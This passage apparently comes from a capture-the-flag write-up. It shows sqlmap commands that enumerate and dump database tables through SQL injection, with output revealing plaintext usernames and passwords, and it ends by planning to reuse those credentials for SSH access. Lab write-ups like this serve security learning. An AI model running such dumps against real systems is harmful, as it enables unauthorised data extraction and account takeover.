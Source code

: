 * Enumerating columns of the table '`accounts`':

```bash
$ sqlmap -r getinfo.req --threads=4 --risk=3 --level=5 --batch -T accounts --columns

<...SNIP...>

[20:58:39] [INFO] fetching columns for table 'accounts' 
Database: <current>
Table: accounts
[2 columns]
+----------+------+
| Column   | Type |
+----------+------+
| password | TEXT |
| username | TEXT |
+----------+------+
```

* Dumping the content of the table '`messages`'

```bash
$ sqlmap -r getinfo.req --threads=4 --risk=3 --level=5 --batch -T messages --dump

<...SNIP...>

[21:01:41] [INFO] fetching columns for table 'messages' 
[21:01:41] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+-------------------+----------+
| id | message           | username |
+----+-------------------+----------+
| 41 | Will update soon. | admin    |
+----+-------------------+----------+
```

* Dumping the content of the table '`accounts`'

```bash
$ sqlmap -r getinfo.req --threads=4 --risk=3 --level=5 --batch -T accounts --dump

<...SNIP...>

[20:59:49] [INFO] fetching columns for table 'accounts' 
[20:59:49] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+
```
* We have a valid username and password, let's test them out to SSH into the box.
